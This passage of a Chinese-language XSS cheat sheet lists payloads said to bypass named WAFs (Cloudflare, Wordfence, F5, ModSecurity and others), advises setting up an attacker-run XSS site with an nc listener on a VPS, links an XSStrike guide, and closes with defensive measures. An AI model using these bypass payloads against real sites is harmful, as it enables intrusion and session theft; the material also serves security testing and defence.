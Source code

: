 #### 结合其他漏洞绕过
```

WAF名称：Cloudflare
Payload：<a”/onclick=(confirm)()>click
绕过技术：非空格填充

WAF名称：Wordfence
Payload：<a/href=javascript&colon;alert()>click
绕过技术：数字字符编码

WAF名称：Barracuda
Payload：<a/href=Java%0a%0d%09script&colon;alert()>click
绕过技术：数字字符编码

WAF名称：Comodo
Payload：<d3v/onauxclick=(((confirm)))“>click
绕过技术：黑名单中缺少事件处理器以及函数调用混淆

WAF名称：F5
Payload：<d3v/onmouseleave=[2].some(confirm)>click
绕过技术：黑名单中缺少事件处理器以及函数调用混淆

WAF名称：ModSecurity
Payload：<details/open/ontoggle=alert()>
绕过技术：黑名单中缺少标签或事件处理器

WAF名称：dotdefender
Payload：<details/open/ontoggle=(confirm)()//
绕过技术：黑名单中缺少结束标签、事件处理器和函数调用混淆

```

#### 还有一些很重要的东西
xss网站最好自己搭建一个，因为可能会过滤xss关键字
最好使用只带有数字的域名或ip
利用vps，用nc端口监听


#### XSStrike工具使用
[**使用说明**](https://blog.csdn.net/RuoLi_s/article/details/113192507?ops_request_misc=&request_id=&biz_id=102&utm_term=XSStrike&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-113192507.nonecase&spm=1018.2226.3001.4187)

#### XSS的防御措施
（1）编码：对输入内容的特定字符进行编码，例如表示html标记的 < > 等符号
（2）过滤：移除用户上传的DOM属性，如onerror等，移除用户上传的style节点，script节点，iframe节点等。
（3）校正：避免直接对HTML Entity编码，使用DOM Prase转换，校正不配对的DOM标签。
（4）配置：对重要的cookie设置httpOnly, 防止客户端通过document.cookie读取 cookie
（5）不要使用Eval来解析并运行不确定的数据或代码，对于JSON解析请使用 JSON.parse()
方法。
